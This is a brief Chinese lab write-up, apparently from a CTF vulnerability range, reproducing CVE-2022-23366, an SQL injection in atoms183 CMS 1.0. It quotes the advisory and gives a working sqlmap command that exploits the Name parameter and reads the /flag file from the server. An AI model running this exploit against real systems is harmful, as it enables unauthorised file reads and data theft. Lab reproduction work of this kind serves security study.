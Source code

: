 ```yaml
---
title: CVE-2022-23366【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

SQL Injection vulnerability in product_admin.php in atoms183 CMS 1.0, allows attackers to execute arbitrary commands via the Name, Fname, and ID parameters to search.php.

[product\_ Admin.php SQL injection · Issue #1 · atoms183/CMS · GitHub](https://github.com/atoms183/CMS/issues/1)

## 2. 漏洞复现

抓包跑 sqlmap   

```bash
python sqlmap.py -r post.txt -p Name --batch --file-read /flag
```
